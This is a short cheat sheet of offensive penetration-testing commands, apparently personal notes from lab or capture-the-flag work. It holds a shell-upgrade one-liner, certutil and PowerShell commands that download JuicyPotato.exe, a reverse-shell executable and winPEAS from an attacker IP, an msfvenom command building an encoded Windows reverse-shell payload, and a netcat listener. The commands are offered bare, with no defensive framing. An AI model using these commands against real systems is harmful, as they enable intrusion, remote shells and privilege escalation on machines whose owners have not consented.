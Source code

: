 For spawning a shell
python -c 'import pty;pty.spawn("/bin/bash")';


download from attacking to target for windows
certutil -urlcache -f http://10.8.102.117:80/JuicyPotato.exe jp.exe

or 


msfvenom --platform Windows -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.8.102.117 LPORT=1234 -f exe -o shell.exe

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/shell.exe -Outfile 'C:\Windows\Temp\shell.exe'

then create listener 
nc -lvnp 1234 


Check command that can run as sudo.
sudo -l


powershell Invoke-WebRequest -Uri http://10.8.102.117:80/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'



